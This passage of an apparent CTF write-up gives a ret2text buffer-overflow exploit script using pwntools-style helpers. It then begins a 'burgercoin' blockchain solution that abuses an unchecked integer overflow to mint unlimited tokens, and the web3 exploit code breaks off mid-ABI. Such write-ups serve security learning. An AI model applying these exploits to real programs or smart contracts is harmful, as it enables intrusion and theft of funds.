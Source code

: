 Ret2text:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *
from pwncli import *

cli_script()
# set_remote_libc("libc.so.6")

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc

for i in range(3):
    rl()
    sl(b"a")
ru(b"SHALL WE PLAY A GAME?\n")
sl(b"a" * 0x48 + p64(0x4011DD))

ia()
```

---

## Blockchain

### burgercoin

#blockchain

Initially, I discovered that `totalSupply` is of int type, and there were no checks on it, so I tried a negative overflow in stage0, but it seemed useless. I first thought of causing an integer overflow to reduce `balances` to 0, but that seemed to require $2^{255}$ attempts, which was unreasonable; however, I found that the method could infinitely increase the `balances` of the owner, and `totalSupply` would decrease indefinitely. Thus, I considered creating a new wallet address into which I could deposit unlimited money (initially transferring a small amount for transaction gas).

Using the above method, I could exploit the system to infinitely generate money:

```python
from threading import Thread

from web3 import Web3, middleware
from web3.gas_strategies.time_based import medium_gas_price_strategy

rpc_endpoint = "http://gold.b01le.rs:8545/a6ab7d2d-746e-4cc2-90b4-d52f695b4ec7"
w3 = Web3(Web3.HTTPProvider(rpc_endpoint))


contract_address = "0x01DF296fA4321Af2b3F82dE2D5a8602B1F054630"
contract_abi = [
    {"inputs": [], "stateMutability": "nonpayable", "type": "constructor"},
    {
        "inputs": [{"internalType": "address", "name": "to", "type": "address"}],
        "name": "giveBurger",
        "outputs": [],
        "stateMutability": "nonpayable",
        "type": "function",
    },
    {
```